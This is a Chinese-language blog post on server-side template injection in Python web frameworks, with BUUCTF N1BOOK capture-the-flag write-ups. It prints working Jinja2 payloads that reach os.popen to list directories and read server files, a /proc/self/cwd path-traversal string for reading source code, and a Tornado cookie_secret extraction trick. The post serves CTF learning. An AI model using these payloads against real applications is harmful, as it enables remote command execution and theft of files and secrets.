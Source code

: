 ```yaml
---
title: 服务器模板注入 (SSTI)
date: '2022/1/23 23:15:01'
categories:
  - - web安全
    - 注入
    - SSTI
abbrlink: 1e38f0b9
description: ssti注入的流程和相关例题
tags:
---
```


## 服务器模板注入 (SSTI)

### 基本注入流程

```
''.__class__		显示这个东西的类
''.__class__.base__		找到这个的基类
''.__class__.__base__.__subclasses__()		看基类的子类
```

> 敏感子类
popen、sys、os

```
因为''.__class__.__base__.__subclasses__()返回的是一个列表，
所以直接''.__class__.__base__.__subclasses__()[425]查看的就是popen这个
```
> **注意：这里的425要根据```''.__class__.__base__.__subclasses__()```实际返回的数组，观察Popen的位置来决定**

到了这里就可以使用某些子类来进行操作了，下面使用[177]这个子类```<class 'warnings.catch_warnings'>```进行操作

比如说查看目录
```shell
''.__class__.__base__.__subclasses__()[177].__init__.__globals__["__builtins__"].eval('__import__("os").popen("ls").read()')
```
进一步查看目录下的文件，这里查看的是test目录下的文件
```shell
''.__class__.__base__.__subclasses__()[177].__init__.__globals__["__builtins__"].eval('__import__("os").popen("ls /test").read()')
```
然后读取需要的文件，这里是读取test目录下的flag.py文件
```shell
''.__class__.__base__.__subclasses__()[177].__init__.__globals__["__builtins__"].eval('__import__("os").popen("cat /test/flag.py").read()')
```

### 绕过限制

参考：[https://www.cnblogs.com/zaqzzz/p/10263396.html](https://www.cnblogs.com/zaqzzz/p/10263396.html)

### 通过模板注入获取tornado中的cookie

利用handler.settings对象
因此构造{{handler.settings}}

知识点
> (1)需要的cookie_secret在Application对象settings属性中

> (2)```self.application.settings```有一个别名```RequestHandler.settings```
而因为handler指向的是处理当前这个页面的RequestHandler对象，并且RequestHandler.settings是指向self.application.settings，因此构造的handler.settings指向RequestHandler.application.settings


参考来自：[https://blog.csdn.net/q20010619/article/details/107553119](https://blog.csdn.net/q20010619/article/details/107553119)

***
***

## 题目

### SSTI
> 这是一道来源于BUUCTF的N1BOOK的题目，[第三章 web进阶]SSTI

```shell
7*7
```
观察回显发现是flask模板注入

```shell
''.__class__.__base__.__subclasses__()
```
看看有什么子类可以利用
```shell
''.__class__.base__.__subclasses__()}
```

发现[177]这个子类是```<class 'warnings.catch_warnings'>```

利用它查看目录
```shell
''.__class__.__base__.__subclasses__()[177].__init__.__globals__["__builtins__"].eval('__import__("os").popen("ls").read()')
```
进一步查看app目录下的文件
```shell
''.__class__.__base__.__subclasses__()[177].__init__.__globals__["__builtins__"].eval('__import__("os").popen("ls /app").read()')
```
然后读取server.py文件
```shell
''.__class__.__base__.__subclasses__()[177].__init__.__globals__["__builtins__"].eval('__import__("os").popen("cat /app/server.py").read()')
```

题目有多种解法
参考来自：
[https://blog.csdn.net/CyhDl666/article/details/115004845](https://blog.csdn.net/CyhDl666/article/details/115004845)
[https://blog.csdn.net/qq_51558360/article/details/114493766](https://blog.csdn.net/qq_51558360/article/details/114493766)

### afr_3
> 这是一道来源于BUUCTF的N1BOOK的题目，[第一章 web入门]afr_3

开头是文件包含，经过一系列操作，
**根据```../../../../../proc/self/cmdline```得出的信息可以知道，当前正在运行 ```pythonserver.py```**

**在这里时需要想到，应该利用python的flask进行模板ssti注入，从而读取flag**

根据/proc/的特性，可以读取正在运行的```pythonserver.py```的源码
```?name=../../../../../proc/self/cwd/server.py```
> 原理是使用proc指定self代表当前进程，然后cwd指向运行的文件```pythonserver.py```

得到的信息里面有```flag.py```，但是直接访问显示权限不够
访问另一个的文件```key.py```得到
 ```shell
#!/usr/bin/python 
key = 'Drmhze6EPcv0fN_81Bj-nA'
 ```

后面待续




参考来自：
[https://www.cnblogs.com/murkuo/p/14905749.html](https://www.cnblogs.com/murkuo/p/14905749.html)